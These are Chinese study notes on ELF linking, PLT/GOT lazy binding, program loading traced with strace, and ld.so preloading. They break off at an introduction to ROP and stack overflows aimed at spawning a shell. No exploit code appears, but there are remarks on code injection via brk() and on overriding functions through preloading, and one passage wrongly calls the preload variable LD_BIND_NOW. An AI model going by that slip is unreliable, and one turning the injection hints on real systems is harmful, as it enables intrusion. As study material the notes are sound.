一般程序的生成的过程如下图所示，而这部分的内容主要讨论链接过程。


> Linking is the process of collecting and combining various pieces of code and data into a single file that can be *loaded* (copied) into memory and executed. 
>
> Linking can be performed at compile time, when the source code is translated into machine code; at load time, when the program is loaded into memory and executed by the loader; and even at run time, by application programs.
>
> -- CSAPP

\* 上图中每个文件的处理过程的名称并没有一个标准，比如在有些地方会把源码到目标文件的过程统称为编译过程。

在进行链接之前，编译器需要进行符号解析：将符号的定义存放在符号表中，将符号的引用信息存放在重定位条目中。

这里需要介绍一下**符号解析规则**。

回顾前面所介绍的，有三种绑定类型的符号：

1. Global symbols：模块内部定义的全局符号
2. Weak symbols：通常是外部定义的全局符号，在本模块中只声明了这个符号而没有给出定义
3. Local symbols：本模块定义的局部符号，即在模块中定义的带static关键字的符号

==符号解析的目的是将每个模块中引用的符号与某个目标模块中定义的符号建立关联，符号解析也被称为符号绑定==。

对于本地符号，因为本地符号在本模块内定义并被引用，所以符号绑定过程只需要与本模块内唯一的符号定义进行绑定即可；

对于全局符号，由于全局符号的解析过程可能涉及多个模块，所以比较复杂，通常交给链接器在链接过程处理。

> 这里也就解释了为什么上面的例子中，函数`func1()`的符号需要进行重定位，而函数`foochu()`的符号不需要进行重定位。因为`foochu()`是本地符号，所以在编译过程中就进行了符号绑定，而`func1()`是全局符号，所以需要在链接过程中进行符号绑定。

在处理全局符号的时候，将GLOBAL绑定类型的符号称为强符号，而将WEAK绑定类型的符号称为弱符号。链接处理多个模块间的符号解析时，需要以下面的规则来处理多重定义的符号：

#1. 强符号不能多次定义，否则链接过程会报错

#2. 若一个符号被定义为一次强符号和多次弱符号，则按强符号的定义为准

#3. 若有多个弱符号定义，则任选其中一个


### 静态链接

静态链接的对象：多个可重定位目标模块(.o 文件) + 静态库(.a 文件，通常包括多个.o 模块)

可以将多个目标模块(.o 文件)打包为一个单独的库文件(.a 文件)，被称为静态库文件或者存档文件。

在生成可执行文件时，只需要指定库文件名称，链接器会自动到对应的库中寻找那些应用程序使用到的目标模块，并且只把用到的模块从库中拷贝出来。

> 这里需要注意的是，静态链接会将库中会使用到的整个模块拷贝到可执行文件中。

这里通过一个例子来介绍静态链接的过程：

```c
/* module1.c */
#include <stdio.h>

void func1(){
    printf("func 1\n");
}

void unused(){
    /* Do nothing */
}
```

以及另一个模块：

```c
/* module2.c */
#include <stdio.h>

void func2(){
    printf("func 2\n");
}
```

编译汇编生成目标文件：

`gcc -c module1.c module2.c`

然后将两个模块打包生成存档文件：

`ar rcs mylib.a module1.o module2.o`

让后编写一个主程序，让这个主程序调用存档库中的函数：

```c
/* proc.c */
#include <sys/syscall.h>

void func1(void);

int main(){
    func1();
    return 0;
}
```

编译汇编生成目标文件，

`gcc -c proc.c`

然后将存档文件链接到主程序的目标文件

`gcc -static proc.o mylib.a -o proc`

使用`objdump -d mylib.a`：

```tex
yzh@ubuntu:~/workstation/static_linkage$ objdump -d mylib.a 
In archive mylib.a:

module1.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <func1>:
   ...
   
0000000000000017 <unused>:
   ...

module2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <func2>:
   ...
```

可以发现静态库文件是直接将两个模块进行了合并。

再使用objdump查看proc中的代码：



可以发现静态链接的过程是将module1中的整个代码拷贝到了主程序中，即使`unused()`函数是不会被用到的。

***静态链接的符号解析过程***：

对于命令`gcc -static proc.o mylib.a -o proc`而言，链接器是从左往右进行扫描的，也就是说对于左边文件中的符号引用，链接器会在右边文件中寻找对应的符号定义。否则就会报错

这里变换两个目标文件的顺序`gcc -static mylib.a proc.o -o proc`，那么就会报错：



因为链接器无法在proc.o文件右边的目标文件中（默认在最右边的目标文件是libc.a文件）找到`func1()`的定义。


完成符号解析后，就是根据重定位条目上的信息将符号的引用修改为符号的定义。

此外，**链接器在处理多个模块的静态链接的过程，是将每个目标文件的相同节合并成可执行文件中对应的节，在完成合并之后才能够确定符号的地址，最后再将符号的引用修改为符号的定义**。

### 程序加载*

链接生成可执行文件之后，文件的程序头表描述了文件中代码和数据在硬盘中的存储映像。

程序的加载过程就是将可执行文件在硬盘中的存储映像映射到虚拟地址空间的存储映像。

> Conceptually, the process of copying the program into memory and then running it is known as loading.
>
> -- CSAPP

每个程序都有一个运行时的内存映像，如下图所示：



需要注意的是，这里的内存映像是一个虚拟地址空间，并不是实际存在的物理存储器。并且每个程序的虚拟地址空间中只有该程序自己的代码和数据和系统内核，这是一种逻辑上的设计，为了让每个程序都认为自己独占内存，而将内存调度的任务交给处理器完成。


程序加载的过程：

Unix系统中的每一个程序都在自己的虚拟地址空间中运行在进程的上下文中。==当在shell中运行一个程序的时候，shell会调用”fork()“函数生成一个子进程，这个子进程由父进程复制得到的。这个子进程会通过”execv()“系统调用来调用加载器==。

==随后加载器会删除子进程已有的虚拟内存段，并且创建一个新的代码、数据、堆和段的虚拟地址空间。在这个新的虚拟地址空间中，堆和栈都初始化为0，而代码段和数据段则是初始化为可执行文件中的内容，这里的复制过程是将虚拟地址空间中的页面映射到可执行文件的页面大小的块==。

最后，这个加载器会跳转到代码段中`_start()`函数的地址，这个地址也就是可执行文件中的程序入口，而通过这个函数最终也会调用程序的主函数。

> Each program in a Unix system runs in the context of a process with its own virtual address space.When the shell runs a program, the parent shell process forks a child process that is a duplicate of the parent. The child process invokes the loader via the execve system call. The loader deletes the child’s existing virtual memory segments, and creates a new set of code, data, heap, and stack segments. The new stack and heap segments are initialized to zero. The new code and data segments are initialized to the contents of the executable file by mapping pages in the virtual address space to page-sized chunks of the executable file. Finally, the loader jumps to the _start address, which eventually calls the application’s main routine. 
>
> Aside from some header information, there is no copying of data from disk to memory during loading. The copying is deferred until the CPU references a mapped virtual page, at which point the operating system automatically transfers the page from disk to memory using its paging mechanism.
>
> -- CSAPP

这里介绍程序加载过程时主要是讨论了相关程序的系统调用顺序。


### 动态链接

在静态链接中，存在下面几个不可避免的问题：

1. 每一个包含某个库函数的程序中都会将该库函数的代码复制到程序的代码段中进行加载运行，如果系统中并发执行多个程序，那么这几个程序中都包含了相同库函数的代码，从而造成内存资源的浪费。
2. 此外，和问题1一样，由于库函数所在的整个库都会被复制到程序对应的可执行文件中，从而造成了磁盘资源的浪费。
3. 如果库函数需要进行更新，那么就需要对调用这个库函数的程序进行重新的编译和链接，对于大型程序而言，这样的操作实际上很不方便。

共享库就是解决上面这些问题的方案。==动态库在运行时加载到内存中的任意一个地址，并且链接到内存中的程序。这个链接的过程就是动态链接，而执行这个过程的程序被称为动态链接器==。

> 在Unix系统中，共享库被称为共享目标文件(shared object)，文件后缀为.so
>
> 在Windows系统中，共享库被称为动态链接库(dynamic link libraies)，文件后缀为.dll


还是上面两个源码，生成一个共享库，使用命令：

`gcc -shared -fPIC module1.o module2.o -o mylib.so`

在这个命令中`-shared`用于生成共享库文件，而`-fPIC`用于生成位置独立(Positon-independet)的代码和数据。关于位置独立，会在后面进行介绍。

随后可以将这个共享库文件与主程序进行链接：

`gcc proc.o ./mylib.so -o proc`

**共享库的基本思想是，在生成可执行文件时静态地完成一部分链接，然后在程序加载时动态地完成整个链接过程。**

当生成可执行文件时，链接器会在可执行文件中添加一些重定位以及符号表信息从而使可执行文件能够引用对应的共享库函数。

当程序被加载并运行时，加载器只会加载部分已经完成链接的部分，随后，加载器注意到这个可执行文件中有一个.interp节，这个节中包含动态链接器的路径。那么它不会像往常一样将控制权递交给程序，而是加载并运行动态链接器。

最后，动态链接将程序中对共享库函数的引用进行解析并重定位，然后将控制权交给程序。


#### ELF共享库文件

ELF文件头中`e_type`字段为DYN时表示这个ELF格式的文件是一个动态库文件：



并且共享库函数通常没有INTERP段（动态链接器的路径），因为共享库文件通常是由动态链接器加载到内存，所以共享库文件不需要调用动态链接器。

当一个共享库被加载到一个进程的地址空间时，这个共享库一定是具有引用其他共享库的重定位。

动态链接器能够修改进程运行时内存映像的GOT(Global Offset Table)，而GOT实际上位于数据段的一个地址表，也就是可执行文件中的.got.plt节，动态链接器解析了共享库函数的地址后将这个地址写入到GOT中。


#### 位置无关代码

共享库最主要的目的是运行多个运行中的程序共享同一个内存中的库的代码，从而节省内存资源。


为了达到这个目的，一种最直接的方法是在程序中为每一个共享库预留一块专用的地址空间。然后在程序加载时让加载器每次都将共享库的代码加载到那块预留的地址空间。

但是这样的方法明显存在一些问题。

首先，这样的方法会造成地址空间的浪费，因为这个方法中会给共享库的代码预留一部分地址空间尽管程序可能并不会使用到这个共享库。

其次，在这样的方法中，必须确保为每一个共享库预留的地址空间不存在任何重叠。并且每当共享库被修改时，都需要确保预留的这块地址空间仍然能够装载这个库，否则，有需要重新为这个共享库寻找一块新的地址空间。而且如果创建了新的共享库，那么就需要为这个共享库寻找一块地址空间。如果采用这样的方法，系统中可能存在成百上千个不同的共享库，以及不同版本的共享库，这样地址空间中就很可能出现大量的比较的未被使用的但是也无法使用的漏洞。所以这样的方法会对地址空间的管理带来很大的麻烦。


一种更好的方法是，对共享库代码进行编译，并加载到内存任意某个地址中运行，这样的代码就是==位置无关代码(PIC, Position-independent Code)==。

共享库函数可以被加载到内存中任意位置上运行，然后动态链接器负责解析这些函数在内存中的地址，然后将这个地址返回给程序，以供程序通过函数的地址调用这些共享库函数。

#### PLT/GOT原理

除了之前提到的GOT(Global Offset Table)以外，还可以在可执行文件或共享库文件中找到了PLT(Procedure Linkage Table)。这一部分内容主要介绍PLT和GOT在动态链接中发挥作用的过程。

下面是一个简单的Hello World程序，从源码可以看到，这个程序调用了libc中的库函数`puts()`：

```c
/* helloworld.c */
#include <stdio.h>

int main()
{
    printf("Hello World!\n");
    return 0;
}
```

编译生成可执行文件：

```tex
yzh@ubuntu:~/workstation/dynamic_linkage$ objdump -d helloworld

0000000000401136 <main>:
  ...
  401145:	e8 f6 fe ff ff       	callq  401040 <puts@plt>
  ...
```

可以看到`main()`函数对`printf()`函数的调用，编译后变成了对`puts@plt`的调用，这个`put@plt`就是一个PLT条目，也就是`puts()`函数对应的PLT条目。

> 这里`printf()`函数的调用变成`puts@plt`的调用是编译器处理程序调用共享库函数的结果，也就是前面所提到的静态地处理一部分链接工作。

然后可以查看这个PLT条目的内容：

```tex
yzh@ubuntu:~/workstation/dynamic_linkage$ objdump -d helloworld

0000000000401040 <puts@plt>:
  401040:	f3 0f 1e fa          	endbr64 
  401044:	f2 ff 25 15 23 00 00 	bnd jmpq *0x2315(%rip)        # 403360 <puts@GLIBC_2.2.5>
  40104b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)
```

当程序跳转到`puts()`函数的PLT条目时，会执行上面的代码（PLT条目位于.plt.sec节，而这个节位于代码段）。而这段代码所执行的操作是跳转到存储在0x403360处的地址：

```tex
yzh@ubuntu:~/workstation/dynamic_linkage$ objdump -D helloworld

0000000000403348 <_GLOBAL_OFFSET_TABLE_>:
  403348:	68 31 40 00 00       	pushq  $0x4031
	...
  40335d:	00 00                	add    %al,(%rax)
  40335f:	00 30                	add    %dh,(%rax)
  403361:	10 40 00             	adc    %al,0x0(%rax)
  403364:	00 00                	add    %al,(%rax)
```

可以看到0x403360其实就位于GOT中，属于数据段，并且还可以注意到GOT的起始地址是0x403348，这两个地址之间的差，恰好是3个64位的地址，也就是说0x403360 = GOT + 0x18，后面会解释这里为什么要使用这样的表示方法。

这个地址实际上是用于存储`puts()`函数在内存中的地址的，但是第一次调用这个函数的时候这个函数的地址还未被解析，这就是==延迟链接==(Lazy link)。延迟链接意味着动态链接器只有在共享库函数被调用时才会解析函数的地址，而不是在加载的时候将所有的共享库函数的地址解析出来，这样做的原因是为了降低程序加载时的工作负荷。PLT的设计就是为了进行延迟链接。

而位于0x403360的地址是0x401030（注意这里是小端方式存储），也就是说程序现在会跳转到0x401030的地址处执行：

```tex
0000000000401020 <.plt>:
  401020:	ff 35 2a 23 00 00    	pushq  0x232a(%rip)        # 403350 <_GLOBAL_OFFSET_TABLE_+0x8>
  401026:	f2 ff 25 2b 23 00 00 	bnd jmpq *0x232b(%rip)        # 403358 <_GLOBAL_OFFSET_TABLE_+0x10>
  40102d:	0f 1f 00             	nopl   (%rax)
  401030:	f3 0f 1e fa          	endbr64 
  401034:	68 00 00 00 00       	pushq  $0x0
  401039:	f2 e9 e1 ff ff ff    	bnd jmpq 401020 <.plt>
  40103f:	90                   	nop
```

0x401030就是.plt节，通过查看程序头表可以发现，.plt节就位于代码段中，所以是可执行的。

这段代码的含义就是：*在栈中压入两个参数0x0, 0x403350(GOT + 0x8)，然后让程序跳转到存储在0x403358处的地址(GOT + 0x10)去执行*。后面会看到，这里的0x0其实就是`puts()`函数的地址在GOT中的索引值，实际上就是前面的GOT + 0x18，为了方便后面的描述，这里将GOT + 0x18记为GOT[3]，其他的GOT中的偏移位置也同理。

也就是说.plt节中的代码会将GOT[3], GOT[1]的地址压入栈中，然后跳转到存储在GOT[2]处的地址。

GOT的前三个条目是保留为固定的参数：

- GOT[0]：保存了PT_DYNAMIC类型的段（也就是DYNAMIC段）的地址，这个段中保存这动态链接器执行动态链接所必须的信息
- GOT[1]：保存了link_map的地址，是动态链接器进行符号解析所需要的信息
- GOT[2]：保存了动态链接器的地址`_dl_runtime_resolve()`，这个函数用于解析共享库函数实际的地址

在了解了这些内容后，再次看.plt节中代码就能够理解动态链接的过程：

.plt节将`puts()`函数的地址在GOT中的偏移量以及link_map的地址作为参数压入栈中，然后调用函数`_dl_runtime_resolve()`来解析`puts()`函数的地址，解析完成后，动态链接器将`puts()`函数在内存中的实际地址写入到GOT中，也就是写入到GOT[3]中。

如果后面函数再次调用`puts()`函数时，依然是跳转到`puts@plt`，然后`put@plt`会跳转到GOT中`puts()`函数真正的地址，而不需要再次执行延迟链接的过程。

==动态链接的具体原理实际上就是在程序内存中预留一定的空间(GOT，即.got.plt节，因为需要读写，所以位于数据段)，用于存储共享库函数在内存中的地址，然后当程序运行时调用动态链接器查找共享库函数的实际地址，再将这个地址返回并写入到之前预留的空间中，这样，当程序再次调用这个共享库函数的时候就直接从GOT中取这个函数的地址即可。==


静态链接和动态链接并不是完全割裂的，下图展示一个程序链接的完整过程：



一般来说，一个程序通常是先进行静态链接（链接编辑）生成可加载文件，调用加载器进行加载之后再进行运行时的动态链接。

静态链接是为了处理模块间的引用以及共享库函数的部分静态链接，而动态链接则是解决共享库函数的调用问题。


## 0x03 使用strace

这里将会使用strace工具分析Linux中程序加载的过程，试图分析出进程在执行程序员所写的代码之前会调用的系统调用，以及这些系统调用的含义。

当然，这里只是从系统调用的层面讨论程序加载的过程。

### 进程创建

这里需要介绍一下进程创建的过程，因为程序在被加载之前需要让父进程为该程序创建一个新的进程。

在进程的执行过程中，一个进程可能需要创建一个新的进程，一般将新创建的进程称为子进程，而创建子进程的进程称为父进程。新创建的子进程也可以继续创建其他进程，这样就构成了一个进程树。

大多数操作系统中都会使用一个唯一的进程标识符(process identifie, or pid)来标记进程，通常这个进程标识符都是一个非负整数。

在Unix系统中，使用"fork()"系统调用来创建一个新的进程，新的进程由父进程的地址空间的副本组成，也就是说子进程和父进程的地址空间是一样的，这样的机制能够让这两个进程更容易进行通信。==父进程和子进程都会继续执行在"fork()"系统调用之后的指令，但有一点不同：对于子进程，"fork()"函数的返回值为0；对于父进程，"fork()"函数的返回值为子进程的pid(nonzero)。==

在执行了"fork()"系统调用之后，子进程通常会通过"execv()"系统调用使一个新的程序取代这个进程原来的内存空间（因为在调用"execv()"函数之前子进程和父进程的内存镜像是完全一样的）。"execv()"系统调用会将一个二进制文件加载到内存中，并且摧毁调用该函数的进程的内存镜像，然后开始执行这个二进制文件。

在这种情况下，这两个进程能够进行通信，并且按照不同的指令路线执行。父进程可以继续创建更多的子进程；或者如果没有什么任务的话，可以使用"wait()"系统调用将自己从就绪队列中移出去，直到子进程终止。

因为对`execv()`的系统调用会让新的程序覆盖原来进程的地址空间，所以`execv()`不会返回控制，除非遇到错误。

更多细节可以参考*operating system concepts*。


再结合前面程序加载的内容，可以理解到，如果在终端输入命令：`<program>`

那么在shell程序中就会执行类似下面的代码：

```c
...
pid_t pid = fork();
if(pid == 0)
{
    /* child process */
    char *args[2];
    char *envp;
    execve("<program>", args, envp);
    exit(0);
}
wait(&status);
...
```

也就是说，shell程序会调用"fork()"函数生成一个子进程，然后子进程会执行"execv()"函数来加载需要运行的进程，从而使进程被加载运行。

所以任何进程所执行的第一个系统调用都必然是"execv()"。

### 无地址随机化

这里先分析最简单的情况，即程序没有使用标准库函数，也没有启用地址无关化(Position Independent Executable, PIE)。

> 前面介绍过Unix下的共享库文件中的代码是地址无关的，但是实际上，可执行文件也可以是地址无关的，开启了地址无关的可执行文件中ELF类型会是"ELF_DYN"的类型，也就是共享库文件。
>
> 开启了地址无关话后，程序每次执行时都会被加载到一个随机的地址，也就是地址随机化(Address Space Layout Randomization, ASLR)，这样做是为了避免程序受到ROP攻击。

前面介绍过，strace会跟踪进程执行期间所调用的所有系统调用，而strace的使用方法很简单：

Usage: `strace <program>`

当然，strace能够支持很多中选项，具体可以参考手册"strace(1)"。

下图是使用strace跟踪一个完全没有使用库函数并且没有开启地址无关话的程序的结果：



这个程序很简单，在"_start()"函数中使用"read()"系统调用读取4字节长的用户输入后就退出。

strace输出的每一行都是以"="分割为两个部分，等号左边表示具体的系统调用以及系统调用所接受的参数，等号右边表示该系统调用的返回值。

但是程序运行时的内存镜像如下：



上面图片的内容各字段的含义从左到右依次如下：

- address - (start address - end address)
- permissions - 表示这块地址区域的内存保护情况
- offset - 非零表示该地址空间在文件中的偏移量
- device - 非零表示映射到该地址空间的文件所在的设备的设备号
- inode - 非零表示映射到改地址空间的文件号
- path - 如果这块地址空间中存放着一个文件映射到内存中的内容，那么这一列的内容表示该文件的路径；当然也有一些比较特殊的区域，比如[stack], [heap], [vvar], [vdso], [vsyscall]等。

而通过readelf工具可以发现，上面映射内容的前3行是可执行文件的第1到第3个可加载段(loadable segment)：第一个可加载段中的内容是ELF文件头，程序头表等内容；第二个可加载段是可执行文件的text段；第三个可加载段是可执行文件的data段。

第4行所表示的地址空间与data段是相连的，但是又不是某个文件内容中映射的地址，所以这个地址空间所表示的就是系统为未初始化的数据所划分的地址空间。

第5行就是栈(stack)区域所在的地址空间了，根据前面介绍程序加载时的内容可以了解到，栈区域就是一个进程内存映射的最高地址空间了。

另外值得注意的一点是，这个程序的内存镜像中并没有动态库映射的区域和堆区域。

但是这里含有另外三个没见过的地址区域，vvar, vdso, vsyscall，这三个区域与虚拟系统调用(Virtual System Call)相关。

> 为了让一些并不需要运行在内核空间的系统调用能够更快地执行，Unix引入了虚拟动态共享目标(Virtual Dynamic Shared Object, vDSO)的概念，其原理和共享库函数比较类似，并且内核会在程序每次执行的时候自动地将虚拟动态共享目标加载到一个随机的地址，即使程序并不会使用到这个动态共享目标中的功能。

因为这里的可执行文件并不依赖这些虚拟系统调用，所以这里不做过多介绍。

### 有地址随机化

(\***注**)：这部分的内容涉及到的内容比较难，并且编写这部分的内容时没有找到比较系统的参考资料，所以这部分的内容主要是一些网上找到的各种零零散散的资料合集，参考价值不大。

这里主要是理解Unix系统开启地址无关化的过程，依然是上面的那个可执行文件，开启了地址无关化后strace追踪的结果如下：



可以看到与上面的情况相比，这里多了一些不太容易理解的系统调用。

想要理解这些系统调用的含义，还需要理解这些系统调用的参数和返回值，所以需要获取到目标进程的内存镜像：



地址无关化的过程需要动态链接器(ld-2.31.so)的协助，所以开启了地址无关化的程序会在加载过程调用动态链接器，尽管程序并没有调用标准库函数，而动态链接器本身也是一个共享目标(ET_DYN)文件。

> 这也就意味着，如果在编译过程中使用了编译选项"-static"，那么程序将无法开启地址无关化，即使编译时也使用了"-pie"选项。

可以将目标进程的内存镜像与下图进行对比：


需要注意的是，内存镜像中从上往下是低地址到高地址，而上图中从上往下则是高地址到低地址。

接下来，将会结合进程运行时的内存镜像来分析相关系统调用的作用。

这里把多出来的系统调用单独拎出来进行分析：

```c
/* set the end of heap */
brk(NULL)                               = 0x560a33c61000
/* ignore this system call */
arch_prctl(0x3001 /* ARCH_??? */, 0x7ffd10578a20) = -1 EINVAL (Invalid argument)
/* prepare for preload, but there didn't require for preload */
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
/* allocate memory for FS register */
mmap(NULL, 8192 /*0x2000*/, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f25771e4000
/* set FS register to the allocated memory */
arch_prctl(ARCH_SET_FS, 0x7f25771e4a80) = 0
/* set the access flag of data segment */
mprotect(0x560a3372e000, 4096 /*0x1000*/, PROT_READ) = 0
```

这部分的系统调用的作用依次是，设置堆区域大小，处理预加载，设置FS寄存器，设置数据段访问权限。后面会依次介绍这些系统调用的具体含义。

**brk()**

原型：

```c
#include <unistd.h>
int brk(void *addr);
```

该系统调用用于修改"program break"，也就是程序数据段结束地址，即program break 就是在最后一个未初始化的data段后的第一个地址。

> 注意未初始化的数据放在.bss节中，但是.bss节不占用文件空间，而是在加载的时候在内存中分配空间。

这个系统调用会接受一个 *addr* 参数，将程序的 program break 设置为这个地址，如果这个参数为NULL，则会自动选择合适的program break，并且会返回最终设置的地址。

一般来说，==brk()系统调用返回的地址是堆区域的结束地址==。所以这里这个系统调用的作用是返回目标进程的堆区域结束地址，即0x560a33c61000就是目标进程堆区域的结束地址。另外，可以看到前面无地址随机化的例子中并没有堆区域。

#### 预加载

设置好进程的堆区域结束地址后，将会准备预加载的工作。这里将会介绍几种用于动态链接器预加载的方法：

1. 程序默认会选择的方法，也就是这里的access()系统调用
2. 命令行指令指定预加载
3. 环境变量指定预加载

**access()**

函数原型：

```c
#include <unistd.h>
int access(const char *pathname, int mode);
```

这个系统调用会检查由 *pathname* 参数指定的文件是否是可访问的，而参数 *mode* 指定了访问权限，比如"R_OK", "W_OK"以及"X_OK"分别表示读, 写和执行权限，而"F_OK"模式只是用于检查该文件是否存在。

更多细节可以参考手册"acess(2)"。

所以上面的系统调用用于检查文件"/etc/ld.so.preload"文件是否是可读的，下面的内容会对这个文件的作用进行介绍。

**ld.so**

前面介绍动态链接的时候已经介绍过，程序的动态链接的原理是让一个动态链接器在运行时对共享库函数的地址进行解析，以供程序对动态库函数调用。但是在这里，将会对动态链接器作用的详细过程进行介绍。

这里提到的"ld.so"或者"ld-linux.so*"就是动态链接器程序，这个程序会加载共享目标，并对共享库函数的地址进行解析。

ELF文件的.interp 节中包含文件指定的动态链接器的路径。也可以使用下面的命令使用指定的动态链接器进行动态链接：

`/lib/ld-linux.so.* [OPTIONS] [PROGRAM [ARGUMENTS]]`

#1. 路径指定的共享目标文件

在解析共享对象的依赖时，动态链接器首先会检查每个依赖项中字符串中是否包含"\\"字符（因为如果在链接时以路径指定共享对象时，依赖项中就会包含斜杠），如果找到了斜杠，则会将依赖项字符串解释为（绝对或者相对）路径，并且使用这个路径加载共享对象。

#2. 非路径指定的共享目标文件

如果共享对象的依赖项字符串中没有斜杠，则说明这个字符串不是路径，那么动态链接器就按照下面的顺序进行解析：

1. 使用二进制文件 .dynamic 节中的DT_RPATH条目指定的目录加载共享目标文件(use of DT_RPATH is deprecated)
2. 使用环境变量 LD_LIBRARY_PATH指定的路径，如果二进制文件执行在安全模式下，那么这个变量会被忽视
3. 使用二进制文件 .dynamic 节中的DT_RUNPATH条目指定的目录加载共享对象，只有当搜索 DT_NEEDED条目指定的依赖项时才会搜索DT_RUNPATH条目，并且不适用于这些依赖项的子对象，这些子对象必须拥有自己的DT_RUNPATH条目。与DT_RPATH不同的地方在于，DT_RPATH条目用于搜索依赖关系树中的所有子项
4. 从缓存文件/etc/ld.so.cache 中加载共享目标文件，这个缓存文件中包含一个候选共享目标文件的编译列表
5. 使用默认路径 /lib，然后是/usr/lib

这里介绍一些动态链接的选项:

- --argv0 string：在程序运行之前，将程序的 argv[0] 参数设置为 *string*
- --list：列举所有的依赖项，并且演示这些依赖项是如何解析的
- --preload list：预加载参数 *list* 中指定的共享目标，参数 *list* 中的共享目标文件以冒号或者空格分割
- --inhibit-cache：不使用 /etc/ld.so.cache
- --inhibit-rpath list：忽略由参数 *list* 指定的共享目标RPATH和RUNPATH的信息

除了这些选项，各种环境变量也会影响动态链接器的执行，这里只对LD_PRELOAD环境变量进行讨论：

LD_BIND_NOW：这个环境变量包含了一个追加的、用户指定的ELF共享目标文件的列表，这个列表中的共享目标文件会在其他所有共享目标文件之前加载，==所以通过这个特性，可以重写其他共享目标文件中的函数==。

这个列表中的共享目标可以用冒号或者空格进行分割，并且不支持对分隔符进行转义。列表中的共享目标可以使用前面介绍过的方法进行搜索，并且会按照从左到右的顺序添加到依赖关系树中。

如果在安全模式下执行可执行文件，那么预加载的共享目标中如果是路径指定的就会被忽略。

可以通过下面的方法指定预加载的共享库，并且动态链接器会按照下面的顺序进行处理：

(1). LD_PRELOAD环境变量

(2). 如果直接调用动态链接，那么可以--preload 命令行选项

(3). 使用"/etc/ld.so.preload"文件

==与LD_PRELOAD相比，--preload选项提供了一种对单个可执行文件执行预加载的方法，并且不会影响该程序的子进程的共享库预加载过程==。

这里对"/etc/ld.so.preload"文件进行介绍：这个文件中包含以空格分割的共享目标列表，如果同时使用了LD_PRELOAD环境变量和"/etc/ld.so.preload"文件，那么就会预加载LD_PRELOAD指定的库。

=="/etc/ld.so.preload"文件具有系统范围的效果，会导致系统上执行的所有程序预加载指定的共享库==。（这通常是不可取的，并且通常仅用于紧急补救措施，比如作为库配置错问题的临时解决方法。）

因为"/etc/ld.so.preload"文件的效果是系统范围的，所以每个程序执行时都会检查这个文件是否是可访问的。


再然后就是下面这条系统调用，这个系统调用的作用其实就是"malloc()"函数，用于请求分配一个大小为8192字节的空内存空间，并且这个空间的访问权限为读写，内存空间的属性是"Pravate"并且"Anonymous"的，通过进程运行时的内存镜像可以看到，其实这块空间就是共享库区域上面的那一行空间，与共享库是紧挨着的，后面会对这块内存区域的作用进行详细介绍。

#### FS 寄存器

下面的一条系统调用是：

`arch_prctl(ARCH_SET_FS, 0x7f25771e4a80)`

**arch_prctl**

函数原型：

```c
#include <asm/prctl.h>        /* Definition of ARCH_* constants */
#include <sys/syscall.h>      /* Definition of SYS_* constants */
#include <unistd.h>
int syscall(SYS_arch_prctl, int code, unsigned long addr);
int syscall(SYS_arch_prctl, int code, unsigned long *addr);
```

这个系统调用用于设置特定于体系结构的进程或线程状态，*code* 参数用于指定相应的子函数，或者可以理解对系统调用要执行的操作，并将 *addr* 参数传递给该系统调用，对于 "set" 操作，参数 *addr* 会被解释为unsigned long类型；对于"get"操作，参数 *addr* 会被解释为unsigned long *类型。

*code* 参数可选为"ARCH_SET_CPUID", "ARCH_GET_CPUID", "ARCH_SET_FS", "ARCH_GET_FS", "ARCH_SET_GS", "ARCH_GET_GS"。这里的各种操作的具体含义不做详细介绍，具体可以参考手册。

如果系统调用成功执行，则返回0，否则返回-1。

更多细节可以参考手册"arch_prctl(2)"。

所以这里的系统调用的含义是，将 *FS* 寄存器设置为 *addr* 指定的地址，即0x7f25771e4a80，而这块地址正好就位于前面请求的一块匿名内存中。

**FS register**

分段式的内存访问(Memory Segmentation)实际上是一种比较老的内存访问机制，因为早先的体系架构中寄存器只有16位，而地址总线的宽度有20位，那么想要通过寄存器指定某个地址，就必须用两个寄存器来表示的一个地址：其中一个用于表示该地址所在的段(Segment)，另一个用于表示该地址在这段中的偏移量。用于表示段的寄存器就被称为段寄存器，常见的段寄存器有: 

CS(Code segment), DS(Data segment), SS(Stack segment), ES(Extra segment), FS, GS

FS和GS没有特定的意义，在不同的操作系统上，有着不同的用途，这些用途都是处理器指定的。**这里的系统调用以及FS寄存器可能都与Intel的CET技术相关，这在后面的实验中可能会用到。**

而在Linux系统下，FS指向的区域为TLS(Thread Local Storage)，GS指向的区域为PDA(Processor Data Area)。

不过FS和GS实际上并不是常用的寄存器。


==所以在没有调用标准库函数的情况下，如果编译选项开启了地址随机化，那么目标进程的执行顺序就是：调用execve() 进行加载，使用brk()函数得到堆区域的结束地址，处理预加载，设置FS寄存器，设置数据段的读权限==。

在后面的内容中还会在遇到这里介绍的内容，比如可以使用brk() 函数扩大进程的堆区域用于注入代码，又或者可以借助预加载机制覆盖一些标准库函数。

#### 有标准库函数

前面分析的两个例子中都排除了程序调用标准库函数的情况，而现在，将会对程序调用了标准库函数的情况进行分析，了解程序在进行动态链接之前都做了什么。

## 0x04 栈溢出(Optional)

ROP(Return-Oriented Programming)，即面向返回的编程，是一种计算安全破解技术，在这种技术下，攻击者可以通过控制调用栈的来劫持程序的执行路径，然后引导目标程序执行一些精心选择的在内存上已有的机器指令序列，这些机器代码序列被称为"gadgets"。

每一个"gadgets"中都包含一个返回指令(`ret`指令)，并且返回的地址就是下一个需要执行的"gadgets"，通过拼接目标进程内存中已有的各种机器指令片段的方法，攻击者可以引导目标程序执行任意操作。

在这部分内容中会对ROP技术进行简单的介绍，并且通过一些实例展示ROP的过程，演示如果通过ROP技术让一个目标进程执行`execve("/bin/sh")`语句，从而获取到目标进程所在的主机的shell。


### Stack Overflow

在了解栈溢出的原理之前，需要先了解栈帧(stack frame)，也被称为调用栈(call stack)，其实就是通过用户栈来保存函数调用过程。

因为栈是先入后出的数据结构，而==函数调用过程也是最先调用的函数只有当它所有调用的函数都执行完成后才能退出==。

栈(stack)其实就是内存中的一段区域，在前面介绍程序链接的过程时就给出了进程在内存中的映射结构。栈空间和一般的栈数据结构一样，采用先入后出的访问规则。并且由高地址向低地址增长，用于保存函数中的局部变量，以及在函数调用的过程中向被调用函数传递参数，并保存当前函数的上下文(%rbp, %rip)。

在X86-64结构体系中，使用%rsp寄存器保存栈顶地址，所以%rsp也被称为栈指针。

帧(frame)其实对栈的划分，也就是当前正在执行的函数在栈中占用的区域，比如当前函数的局部变量，或者临时空间。

